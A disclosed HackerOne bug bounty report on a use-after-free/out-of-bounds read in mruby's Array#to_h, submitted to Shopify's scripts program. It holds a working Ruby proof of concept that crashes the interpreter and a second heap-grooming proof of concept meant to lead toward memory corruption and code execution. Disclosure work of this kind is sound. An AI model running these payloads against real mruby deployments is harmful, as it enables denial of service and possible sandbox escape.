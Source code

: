 # Use after free vulnerability in mruby Array#to_h causing DOS possible RCE

## Report Details
- **Report ID**: 181321
- **URL**: https://hackerone.com/reports/181321
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2016-11-10T13:19:17.278Z
- **Disclosed**: 2016-12-16T20:05:00.076Z

## Reporter
- **Username**: isra17
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
This bug was found with `jmlb337`.

## Vulnerability 
The function `to_h` will call the C function  `mrb_ary_to_h`.  This will iterate through the elements of the array.  If an element is not of type Array it will call attempt to call `to_ary` method of that object.  If `to_ary` does not return an array, the function will raise a ruby exception with the class name in the exception message.

However, the code does not properly check that the array length was not modified during the call of `to_ary`. The vulnerability is triggered when the array is shrunk during call to `to_ary`, letting `mrb_ary_to_h` read an out of bound object to get an element classname.  A crash or or denial of service can be triggered by neutering the array in the `to_ary` call. A `mrb_obj_iv_set` call done on the controlled class pointer can be used to have a memory write leading to RCE.


## Reproduction Step
1. Define a new class that will define the method `to_ary`.
2. in the `to_ary` clear a global array that will be later define and return a non array object.
3. Create the global array containing an instance of the defined class.
4. Call `to_h` on that array.

## PoC DOS
```ruby
class A
  def to_ary
    $a.clear
    nil
  end
end
$a = [A.new]
$a.to_h
```
This POC will cause a null memory access and terminate the mruby process.

## Explaination
The bug is triggered due to call back to `to_ary` in [array.c:130](https://github.com/mruby/mruby/blob/master/mrbgems/mruby-array-ext/src/array.c#L130): 
```c
 v = mrb_check_array_type(mrb, RARRAY_PTR(ary)[i]);
```

The function `mrb_check_array_type` check if the element at `RARRAY_PTR(ary)[i]`.  in the case of the POC it will be of type `A`.  It will then continue to call the `to_ary` method of the `A` class to convert the value into an array.

```c
MRB_API mrb_value
mrb_check_array_type(mrb_state *mrb, mrb_value ary)
{
  return mrb_check_convert_type(mrb, ary, MRB_TT_ARRAY, "Array", "to_ary");
}

MRB_API mrb_value
mrb_check_convert_type(mrb_state *mrb, mrb_value val, enum mrb_vtype type, const char *tname, const char *method)
{
  mrb_value v;

  if (mrb_type(val) == type && type != MRB_TT_DATA) return val;
  v = convert_type(mrb, val, tname, method, FALSE);
  if (mrb_nil_p(v) || mrb_type(v) != type) return mrb_nil_value();
  return v;
}
```

By calling the `Array#clear` method on the global array, the pointer to the array data (`ptr`) will be set to null.
```c
MRB_API mrb_value
mrb_ary_clear(mrb_state *mrb, mrb_value self)
{
...
  a->len = 0;
  a->aux.capa = 0;
  a->ptr = 0;
...
```

Since `to_ary` will not return an array, the C code will attempt to raise an exception with the class name in the exception message.
```c
 if (mrb_nil_p(v)) {
      mrb_raisef(mrb, E_TYPE_ERROR, "wrong element type %S at %S (expected array)",
        mrb_str_new_cstr(mrb,  mrb_obj_classname(mrb, RARRAY_PTR(ary)[i])),
```
when it calls `RARRAY_PTR(ary)[i]` it will attempt to reference `0[i]` and crash the process.

## Exploitability

The vulnerability is exploitable as long as the attacker can run arbitrary ruby code in the mruby interpreter. It should cover mruby-engine case as used by Shopify.

## Impact

This vulnerability can cause a Denial Of service on the mruby process very reliably.  It could also lead to farther memory corruption and potentially lead to Remote Code Execution.

We are convinced we can push this bug further to lead to memory corruption and RCE. I spoke with François Chagnon and we preferred to report the bugs as soon as possible while working on a complete proof of concept afterward so it can get patched earlier. Therefor we would like a week or two to get time to work on this and be able to claim the higher tier bounty. The proof of concept would also used the other reported bug [#181319](https://hackerone.com/reports/181319) to get a memory disclosure.

## Possible Remote Code Execution POC #2
```ruby
$size = 32
$bb = []
for i in 0..256
 $bb.push("b"*$size)
end

class A
 def to_ary
   $bb.clear
   $a.clear
   $a.push("b"*256)
   #first byte is 0 as long as the lsb != 1 its fine
   $a.push("\x00bcdefg\x70hijklmnopqurtuvwxyzABCDEFGHIJKLMNOPQRSTUVWXY"*3 + ("a"*200))
   $a.push("y"*256)
   $a.push("e"*256)

   return "a"
 end
end

$a = [[1,"a"],[1,"a"],[1,"a"],[1,"a"],[1,"a"],[1,"a"],A.new]

for i in 0..256
 $bb.push("z"*$size)
end

@a = $a.to_h
```

## Exploitation
In the second POC, and attacker creates an array of 7 elements where the last element has an object with the vulnerable to_ary method.  7 elements is important because when the bug is triggered the index of the array will be out of bounds by 3 pointer size.  That is where our data will be.

after clearing the global array push some elements back into the array. No more than 4 since that will increase the capacity of the array to 8 and our index will not be out of bounds.

by pushing the large strings the data of the strings will be placed after the array data.  When the call is made to `mrb_obj_classname(mrb, RARRAY_PTR(ary)[i])`,
user controlled data will be returned.  

An attacker could then craft an `mrb_value` object using the strings and cause farther memory corruption.

There exists code paths that could allow an attacker to right data to a pointer crafted by the attacker.

## Proposed Fix

See patch in attachment.


## Attachments
No attachments
